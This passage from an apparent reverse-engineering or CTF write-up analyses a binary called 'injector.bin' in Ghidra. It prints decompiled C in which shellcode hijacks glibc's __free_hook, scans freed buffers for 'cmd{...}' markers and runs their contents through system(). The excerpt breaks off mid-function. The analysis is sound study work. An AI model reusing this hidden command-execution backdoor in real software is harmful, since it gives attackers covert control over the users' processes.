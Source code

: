 ```nasm
  c4:   41 5c                   pop    r12
  c6:   41 5d                   pop    r13
  c8:   c3                      ret
```

Firing up `ghidra` and importing `injector.bin` (setting the file type as `Raw binary` and the Language as `x86:64:gcc`):

![ghidra import](../img/injector/01.png)

we can disassemble the binary code, then see the resulting decompiled `C`:

```c linenums="1"
/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

undefined8 UndefinedFunction_00000000(char *param_1,undefined8 param_2,undefined8 param_3)

{
  char *pcVar1;
  ulong uVar2;
  ulong uVar3;
  char *pcVar4;

  uVar3 = (*(code *)malloc_usable_size();
  _DAT___free_hook = 0;
  pcVar4 = param_1;
  do {
    if (uVar3 < 6) {
      (*(code *)__free_hook(param_1);
      _DAT___free_hook = (shellcode_addr);
      return param_3;
    }
    if ((((*pcVar4 == 'c') && (pcVar4[1] == 'm')) && (pcVar4[2] == 'd')) && (pcVar4[3] == '{')) {
      *pcVar4 = '\0';
      pcVar4 = pcVar4 + 4;
      uVar3 = uVar3 - 4;
      do {
        pcVar1 = pcVar4 + 1;
        uVar2 = uVar3 - 1;
        if (0x5e < (byte)(*pcVar4 - 0x20U)) goto LAB_00000096;
        if (*pcVar4 == '}') {
          *pcVar4 = '\0';
          (*(code *)system();
          goto LAB_00000096;
        }
        pcVar4 = pcVar1;
        uVar3 = uVar2;
      } while (uVar2 != 1);
      uVar3 = 1;
    }
LAB_00000096:
    pcVar4 = pcVar4 + 1;
```